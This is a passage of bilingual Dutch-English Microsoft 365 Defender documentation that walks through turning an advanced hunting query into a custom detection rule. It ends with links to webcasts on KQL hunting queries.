<span data-ttu-id="c8ebe-342">Nadat u een query hebt gemaakt die informatie  identificeert die u wilt laten weten als ze in de toekomst worden uitgevoerd, kunt u een aangepaste detectie maken op de query.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-342">Once you have created a query that identifies information that you'd like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span>

<span data-ttu-id="c8ebe-343">Met aangepaste detecties wordt de query uitgevoerd op basis van de frequentie die u hebt ingesteld. De resultaten van de query's maken beveiligingswaarschuwingen, op basis van de beïnvloede assets die u kiest.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-343">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="c8ebe-344">Deze waarschuwingen worden gecorreleerd aan incidenten en kunnen worden gekoppeld aan een andere beveiligingswaarschuwing die door een van de producten wordt gegenereerd.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-344">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1. <span data-ttu-id="c8ebe-345">Verwijder op de querypagina de regels 7 en 8 die zijn toegevoegd in stap 7 van de zoekinstructies gaan en klik op **Detectieregel maken.**</span><span class="sxs-lookup"><span data-stu-id="c8ebe-345">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span>

   

   > [!NOTE]
   > <span data-ttu-id="c8ebe-347">Als u op **Detectieregel maken** klikt en u syntaxisfouten in de query hebt, wordt de detectieregel niet opgeslagen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-347">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won't be saved.</span></span> <span data-ttu-id="c8ebe-348">Controleer de query om er zeker van te zijn dat er geen fouten zijn.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-348">Double-check your query to ensure there's no errors.</span></span>

2. <span data-ttu-id="c8ebe-349">Vul de vereiste velden in met de gegevens waarmee het beveiligingsteam inzicht krijgt in de waarschuwing, waarom deze is gegenereerd en welke acties u verwacht dat ze uitvoeren.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-349">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span>

   

   <span data-ttu-id="c8ebe-351">Zorg ervoor dat u de velden helder invult om de volgende gebruiker een weloverwogen beslissing te geven over deze detectieregelwaarschuwing</span><span class="sxs-lookup"><span data-stu-id="c8ebe-351">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span>

3. <span data-ttu-id="c8ebe-352">Selecteer in deze waarschuwing welke entiteiten van invloed zijn.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-352">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="c8ebe-353">Selecteer in dit geval **Apparaat** en **Postvak.**</span><span class="sxs-lookup"><span data-stu-id="c8ebe-353">In this case, select **Device** and **Mailbox**.</span></span>

   

4. <span data-ttu-id="c8ebe-355">Bepaal welke acties moeten plaatsvinden als de waarschuwing wordt geactiveerd.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-355">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="c8ebe-356">Voer in dit geval een antivirusscan uit, hoewel andere acties kunnen worden uitgevoerd.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-356">In this case, run an antivirus scan, though other actions could be taken.</span></span>

   

5. <span data-ttu-id="c8ebe-358">Selecteer het bereik voor de waarschuwingsregel.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-358">Select the scope for the alert rule.</span></span> <span data-ttu-id="c8ebe-359">Aangezien deze query apparaten betreft, zijn de apparaatgroepen relevant in deze aangepaste detectie volgens microsoft Defender voor eindpuntcontext.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-359">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender for Endpoint context.</span></span> <span data-ttu-id="c8ebe-360">Wanneer u een aangepaste detectie maakt die geen apparaten als beïnvloede entiteiten bevat, is het bereik niet van toepassing.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-360">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>

   

   <span data-ttu-id="c8ebe-362">Voor deze pilot kunt u deze regel beperken tot een subset testapparaten in uw productieomgeving.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-362">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6. <span data-ttu-id="c8ebe-363">Selecteer **Maken**. </span><span class="sxs-lookup"><span data-stu-id="c8ebe-363">Select **Create**.</span></span> <span data-ttu-id="c8ebe-364">Selecteer vervolgens **Aangepaste detectieregels** in het navigatiedeelvenster.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-364">Then, select **Custom detection rules** from the navigation panel.</span></span>

   

   

   <span data-ttu-id="c8ebe-367">Op deze pagina kunt u de detectieregel selecteren, waarmee een detailpagina wordt geopend.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-367">From this page, you can select the detection rule, which will open a details page.</span></span>

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="c8ebe-369">Extra geavanceerde loop-through-oefeningen voor de jacht</span><span class="sxs-lookup"><span data-stu-id="c8ebe-369">Additional advanced hunting walk-through exercises</span></span>

<span data-ttu-id="c8ebe-370">Voor meer informatie over geavanceerd zoeken, worden in de volgende webcasts de mogelijkheden van geavanceerd zoeken in Microsoft 365 Defender besleurd om kruiskolomquery's te maken, naar entiteiten te draaien en aangepaste detecties en herstelacties te maken.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-370">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft 365 Defender to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

> [!NOTE]
> <span data-ttu-id="c8ebe-371">Wees voorbereid met uw eigen GitHub-account om de zoekquery's in uw testlabomgeving uit te voeren.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-371">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>

|<span data-ttu-id="c8ebe-372">Title</span><span class="sxs-lookup"><span data-stu-id="c8ebe-372">Title</span></span>|<span data-ttu-id="c8ebe-373">Beschrijving</span><span class="sxs-lookup"><span data-stu-id="c8ebe-373">Description</span></span>|<span data-ttu-id="c8ebe-374">MP4 downloaden</span><span class="sxs-lookup"><span data-stu-id="c8ebe-374">Download MP4</span></span>|<span data-ttu-id="c8ebe-375">Bekijken op YouTube</span><span class="sxs-lookup"><span data-stu-id="c8ebe-375">Watch on YouTube</span></span>|<span data-ttu-id="c8ebe-376">CSL-bestand dat u wilt gebruiken</span><span class="sxs-lookup"><span data-stu-id="c8ebe-376">CSL file to use</span></span>|
|---|---|---|---|---|
|<span data-ttu-id="c8ebe-377">Aflevering 1: KQL-fundamentals</span><span class="sxs-lookup"><span data-stu-id="c8ebe-377">Episode 1: KQL fundamentals</span></span>|<span data-ttu-id="c8ebe-378">We behandelen de basisbeginselen van geavanceerde zoekmogelijkheden in Microsoft 365 Defender.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-378">We'll cover the basics of advanced hunting capabilities in Microsoft 365 Defender.</span></span> <span data-ttu-id="c8ebe-379">Meer informatie over beschikbare geavanceerde zoekgegevens en basis-syntaxis en operatoren van KQL.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-379">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span>|[<span data-ttu-id="c8ebe-380">MP4</span><span class="sxs-lookup"><span data-stu-id="c8ebe-380">MP4</span></span>](https://aka.ms/MTP15JUL20_MP4)|[<span data-ttu-id="c8ebe-381">YouTube</span><span class="sxs-lookup"><span data-stu-id="c8ebe-381">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM)|[<span data-ttu-id="c8ebe-382">Aflevering 1: CSL-bestand in Git</span><span class="sxs-lookup"><span data-stu-id="c8ebe-382">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|<span data-ttu-id="c8ebe-383">Aflevering 2: Joins</span><span class="sxs-lookup"><span data-stu-id="c8ebe-383">Episode 2: Joins</span></span>|<span data-ttu-id="c8ebe-384">We gaan verder met het leren van gegevens in geavanceerde zoekprocessen en het samenbrengen van tabellen.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-384">We'll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="c8ebe-385">Meer informatie over inner,outer, unique en semi joins en de nuances van de standaard Kusto innerunique join.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-385">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span>|[<span data-ttu-id="c8ebe-386">MP4</span><span class="sxs-lookup"><span data-stu-id="c8ebe-386">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4)|[<span data-ttu-id="c8ebe-387">YouTube</span><span class="sxs-lookup"><span data-stu-id="c8ebe-387">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU)|[<span data-ttu-id="c8ebe-388">Aflevering 2: CSL-bestand in Git</span><span class="sxs-lookup"><span data-stu-id="c8ebe-388">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|<span data-ttu-id="c8ebe-389">Aflevering 3: Gegevens samenvatten, draaien en visualiseren</span><span class="sxs-lookup"><span data-stu-id="c8ebe-389">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="c8ebe-390">Nu we gegevens kunnen filteren, manipuleren en joinen, is het tijd om te beginnen met het samenvatten, kwantificeren, draaien en visualiseren.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-390">Now that we're able to filter, manipulate, and join data, it's time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="c8ebe-391">In deze aflevering behandelen we de samenvattende operator en enkele berekeningen die u kunt uitvoeren tijdens het duiken in extra tabellen in het geavanceerde schema voor de jacht.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-391">In this episode, we'll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="c8ebe-392">We veranderen onze gegevenssets in grafieken waarmee we de analyse kunnen verbeteren.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-392">We turn our datasets into charts that can help improve analysis.</span></span>|[<span data-ttu-id="c8ebe-393">MP4</span><span class="sxs-lookup"><span data-stu-id="c8ebe-393">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4)|[<span data-ttu-id="c8ebe-394">YouTube</span><span class="sxs-lookup"><span data-stu-id="c8ebe-394">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y)|[<span data-ttu-id="c8ebe-395">Aflevering 3: CSL-bestand in Git</span><span class="sxs-lookup"><span data-stu-id="c8ebe-395">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|<span data-ttu-id="c8ebe-396">Aflevering 4: Laten we op zoek gaan!</span><span class="sxs-lookup"><span data-stu-id="c8ebe-396">Episode 4: Let's hunt!</span></span> <span data-ttu-id="c8ebe-397">KQL toepassen op het bijhouden van incidenten</span><span class="sxs-lookup"><span data-stu-id="c8ebe-397">Applying KQL to incident tracking</span></span>|<span data-ttu-id="c8ebe-398">Tijd om wat activiteiten van de aanvaller bij te houden!</span><span class="sxs-lookup"><span data-stu-id="c8ebe-398">Time to track some attacker activity!</span></span> <span data-ttu-id="c8ebe-399">In deze aflevering gebruiken we ons verbeterde begrip van KQL en geavanceerde jacht in Microsoft 365 Defender om een aanval bij te houden.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-399">In this episode, we'll use our improved understanding of KQL and advanced hunting in Microsoft 365 Defender to track an attack.</span></span> <span data-ttu-id="c8ebe-400">Lees enkele tips en trucs die in het veld worden gebruikt om activiteiten van aanvallers bij te houden, waaronder de ABC's van cyberbeveiliging en hoe u deze kunt toepassen op incidentrespons.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-400">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span>|[<span data-ttu-id="c8ebe-401">MP4</span><span class="sxs-lookup"><span data-stu-id="c8ebe-401">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4)|[<span data-ttu-id="c8ebe-402">YouTube</span><span class="sxs-lookup"><span data-stu-id="c8ebe-402">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8)|[<span data-ttu-id="c8ebe-403">Aflevering 4: CSL-bestand in Git</span><span class="sxs-lookup"><span data-stu-id="c8ebe-403">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a><span data-ttu-id="c8ebe-404">Volgende stap</span><span class="sxs-lookup"><span data-stu-id="c8ebe-404">Next step</span></span>

|<span data-ttu-id="c8ebe-405"></span><span class="sxs-lookup"><span data-stu-id="c8ebe-405"></span></span> <br>[<span data-ttu-id="c8ebe-406">Slotfase en overzichtsfase</span><span class="sxs-lookup"><span data-stu-id="c8ebe-406">Closing and summary phase</span></span>](mtp-pilot-close.md)|<span data-ttu-id="c8ebe-407">Analyseer uw testresultaat van Microsoft 365 Defender, presenteert deze aan uw belanghebbenden en zet de volgende stap.</span><span class="sxs-lookup"><span data-stu-id="c8ebe-407">Analyze your Microsoft 365 Defender pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|